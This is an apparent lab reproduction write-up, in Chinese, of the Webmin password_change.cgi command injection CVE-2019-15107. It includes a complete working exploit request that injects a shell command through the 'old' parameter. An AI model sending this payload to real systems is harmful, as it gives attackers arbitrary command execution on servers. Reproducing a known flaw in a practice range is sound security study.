


#  Webmin远程命令执行漏洞（CVE-2019-15107）by [hu4wufu](https://github.com/hu4wufu)

## 概述

Webmin 被爆出1.920版本之前存在一个远程命令执行漏洞（CVE-2019-15107），当用户开 Webmin 密码重置功能后，攻击者利用该漏洞可在易受损系统中执行任意命令，进而获取系统 Shell。由于Webmin 中 Password_Change.cgi 在接收请求的处理过程中，old 参数存在命令注入漏洞，可被攻击者恶意利用。

## 影响版本

Webmin 1.920及以下版本。

## 漏洞复现

1、打开靶场，开启Webmin的漏洞环境。


2、抓取数据包，修改数据，利用poc进行验证，发现有回显。



```
POST /password_change.cgi HTTP/1.1
Host: 118.193.36.37:9211
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://118.193.36.37:9211
Connection: close
Referer: https://118.193.36.37:9211/
Cookie: redirect=1; testing=1
Upgrade-Insecure-Requests: 1

user=rootxx&pam=&expired=2&old=test|ls /tmp&new1=test2&new2=test2

```

3、直接查看FLag



